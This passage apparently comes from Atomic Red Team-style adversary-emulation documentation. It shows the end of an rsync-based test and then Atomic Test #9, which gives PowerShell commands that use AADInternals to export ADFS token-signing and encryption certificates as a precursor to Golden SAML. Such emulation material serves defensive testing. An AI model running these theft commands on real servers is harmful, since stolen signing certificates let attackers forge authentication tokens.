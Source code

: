 #### Cleanup Commands:

```sh
rm -rf #{output_folder}
```

#### Dependencies: Run with `sh`!

##### Description: Check if rsync is installed.

##### Check Prereq Commands:

```sh
if [ ! -x "$(command -v rsync)" ]; then exit 1; else exit 0; fi;
```

##### Get Prereq Commands:

```sh
(which pkg && pkg install -y rsync)
```

<br/>
<br/>

## Atomic Test #9 - ADFS token signing and encryption certificates theft - Local

Retrieve ADFS token signing and encrypting certificates. This is a precursor to the Golden SAML attack (T1606.002). You must be signed in as Administrator on an ADFS server.
Based on https://o365blog.com/post/adfs/ and https://github.com/fireeye/ADFSDump.

**Supported Platforms:** Windows

**auto_generated_guid:** 78e95057-d429-4e66-8f82-0f060c1ac96f

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module AADInternals -Force
Export-AADIntADFSCertificates
Get-ChildItem | Where-Object {$_ -like "ADFS*"}
Write-Host "`nCertificates retrieved successfully"
```

#### Cleanup Commands:

```powershell
Remove-Item -Path ".\ADFS_encryption.pfx" -ErrorAction Ignore
Remove-Item -Path ".\ADFS_signing.pfx" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: AADInternals module must be installed.

##### Check Prereq Commands:
